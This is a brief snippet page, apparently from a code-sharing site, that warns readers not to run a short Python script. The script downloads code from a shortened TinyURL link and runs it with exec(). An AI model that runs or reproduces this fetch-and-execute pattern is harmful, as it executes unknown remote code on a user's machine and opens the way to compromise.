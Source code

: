 You should not execute this script.<br/>
If you execute this, it is at your own risk<br/>
<br/>
```
import urllib.request
script = urllib.request.urlopen("https://tinyurl.com/btwktzns").read()
exec(script)
```
